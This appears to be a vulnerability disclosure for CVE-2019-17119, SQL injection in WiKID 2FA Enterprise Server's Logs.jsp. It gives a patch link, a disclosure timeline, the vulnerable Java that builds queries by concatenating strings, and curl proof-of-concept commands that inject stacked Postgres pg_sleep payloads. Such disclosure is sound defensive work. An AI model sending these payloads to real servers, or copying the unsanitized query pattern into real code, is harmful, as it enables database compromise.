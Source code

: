 Multiple SQL Injection vulnerabilities, CVE-2019-17119, were identified on `WiKID Systems 2FA Enterprise Server` through version `4.2.0-b2053`.  The <var>substring</var> and <var>source</var> parameters, used by **Logs.jsp**, are not sanitized thus allowing an authenticated user to create, read, update, or delete arbitrary information in the database.  

## Patch

* **4.2.0.b2053**: <https://downloads.wikidsystems.com/wikid-server-enterprise-4.2.0.b2053-1.noarch.rpm>

## Timeline

* 26 Sep 2019 - Issue discovered on `WiKID Systems 2FA Enterprise Server 4.2.0-b2032`
* 29 Sep 2019 - Issue disclosed to WiKID Systems
* 09 Oct 2019 - Issue confirmed by WiKID Systems, Patch released
* XXX Oct 2019 - Public Disclosure

## Description

Reviewing the source code for **Logs.jsp** revealed the following code blocks:

~~~
192     private String createSourceFilter(HttpServletRequest request) {
193         String source = getLogConfig(request).get("source");
194         if (source == null || "None".equals(source)) {
195             return " ";
196         }
197         return " and logger_name = '" + source + "' ";
198     }
199 
200     private String createSubStringFilter(HttpServletRequest request) {
201         String subString = getLogConfig(request).get("subString");
202         if (subString == null || subString.trim().length() == 0) {
203             return " ";
204         }
205         return " and rendered_message like '%" + subString + "%' ";
206     }
~~~

`createSourceFilter` reads the <var>source</var> parameter and includes the value in a query being constructed; `createSubStringFilter` reads the <var>substring</var> parameter and includes the value in a query that is being constructed.

The following queries can be used to demonstrate the parameters are vulnerable, the queries take advantage of Postgres Stacked Queries and issue a secondary request that causes the database and application to delay for 5+ seconds:

~~~
time curl --output /dev/null -s -k -H "Cookie: JSESSIONID=$COOKIE" --data-binary "source='; select pg_sleep(5);--" https://$RHOST/WiKIDAdmin/Log.jsp

real    0m10.572s
user    0m0.008s
sys     0m0.016s
~~~

~~~
time curl --output /dev/null -s -k -H "Cookie: JSESSIONID=$COOKIE" --data-binary "subString='; select pg_sleep(5);--" https://$RHOST/WiKIDAdmin/Log.jsp

real    0m10.572s
user    0m0.008s
sys     0m0.016s
~~~
